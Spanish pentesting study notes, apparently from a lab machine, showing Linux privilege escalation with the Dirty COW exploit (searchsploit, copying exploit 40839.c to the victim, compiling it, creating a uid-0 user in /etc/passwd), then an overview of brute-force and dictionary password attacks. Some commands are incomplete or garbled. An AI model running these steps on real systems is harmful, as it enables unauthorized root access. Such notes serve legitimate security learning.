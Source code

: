 Tenemos dos opciones, desarrollar y ejecutar nuestro código o utilizar uno desarrollado por la comunidad (PoC). En este caso usamos uno preexistente:

- Linux Exploit Suggester / Metasploit
- o la herramienta sherchsploit

```bash
searchsploit dirty cow
# Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' '' 
```

Vamos a modificar el etc/passwd sin que el quernel se de cuenta

```bash
searchsploit -m /exploits/linux/local/40839.c
scp -i hype_key_decrypted ./40839.c hype@10.129.139..237:/home/hype40839.c
# Aquí veremos ya en la maquina víctima
# Lo compilamos con gcc -theads
chmod # Le damos permisos 
./exploit
# Aquí ya se ha copiado el /etc/passwd, nos pide una nueva contraseña.
# Con esto conseguimos crear un nuevo usuario sin que el kernel se de cuenta
```

Si miramos el fichero `etc/passwd`, tenemos el nuevo usuario creado, pudiendo ejecutarse como `root` si nos identificamos, vemos que tenemos el `uid=0` y `gid=0` en el grupo root.

https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/demo.html

## Otras técnicas

Los ficheros de Kernel tienen extensiones `.o` o `.ok`

# Ataques a contraseñas

Una técnica habitual en sistemas operativos de tipo Linux es la que implica atacar las contraseñas de cuentas locales.

Existen diferentes enfoques para realizar ataques a contraseñas:

- Comprometer una contraseña ya sea a través de ingeniería social, malware, captura de tráfico…
- Adivinar o romper una contraseña: fuerza bruta, ataque de diccionario, ataques dirigidos…
- Comprometer todas las contraseñas del sistema a través del fichero que las almacena y romper su sistema de cifrado.

## Tipos de ataques

- **Fuerza bruta:** consiste en probar todas las combinaciones posibles de letras, números y caracteres especiales, incrementando la longitud de la cadena que se prueba en cada interacción.
    - Si conocemos la política de contraseñas, comenzando por la longitud mínimo de contraseña (hash masks)
- **Ataque de diccionario:** consiste en reducir el espacio de búsqueda de la fuerza bruta utilizando palabras que aparecen en el diccionario/wordlist
    - RockYou, **Kaonashi** o [**SecList**](https://github.com/danielmiessler/SecLists)
